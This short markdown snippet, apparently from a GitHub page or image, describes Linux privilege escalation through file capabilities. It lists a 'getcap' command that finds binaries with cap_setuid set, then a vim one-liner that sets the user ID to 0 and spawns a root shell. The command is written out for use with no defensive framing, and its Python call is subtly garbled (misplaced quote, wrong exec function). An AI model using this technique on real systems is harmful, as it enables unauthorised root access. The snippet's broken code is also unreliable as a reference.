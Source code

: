 # Example

### getcap -r / 2>/dev/null

## Affirmative discovery: cap_setuid+ep

## Example:

### ./vim -c ':py3 import os; os.setuid(0); os.exec("/bin/sh, "sh", "-c", "reset; exec sh")'


